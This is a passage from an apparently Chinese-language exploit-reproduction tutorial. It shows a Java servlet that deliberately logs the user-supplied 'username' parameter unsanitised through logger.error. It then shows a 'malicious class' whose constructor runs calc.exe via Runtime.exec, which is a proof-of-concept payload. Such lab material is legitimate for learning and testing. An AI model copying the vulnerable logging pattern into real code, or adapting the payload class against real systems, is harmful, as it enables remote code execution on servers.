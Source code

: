 ```java
        // TODO Auto-generated constructor stub
    }

    /**
     * @see HttpServlet#doGet(HttpServletRequest request, HttpServletResponse response)
     */
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        // TODO Auto-generated method stub
        response.setContentType("text/html");
        response.setHeader("Content-Type", "text/html; charset=utf-8");
        System.out.println(request.getQueryString());


        // Hello
        PrintWriter out = response.getWriter();
        out.println("<html><body>");
        out.println("<h1>Hello World!</h1>");
        out.println("</body></html>");
    }

    /**
     * @see HttpServlet#doPost(HttpServletRequest request, HttpServletResponse response)
     */
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        // TODO Auto-generated method stub
        String name = request.getParameter("username");
        System.out.println(name);
        logger.error(name);
        response.setContentType("text/html");
        response.setHeader("Content-Type", "text/html; charset=utf-8");
        PrintWriter out = response.getWriter();
        out.println("<html><body>");
        out.println("<h1>Got it!</h1>");
        out.println("</body></html>");
    }
}

```



### 2. **编写恶意类并编译**

```java
public class Exploit {
    public Exploit(){
        try{
            String[] commands = {"calc.exe"};
            Process pc = Runtime.getRuntime().exec(commands);
            pc.waitFor();
        } catch(Exception e){
            e.printStackTrace();
        }
    }

    public static void main(String[] argv) {
        Exploit e = new Exploit();
    }
}

```
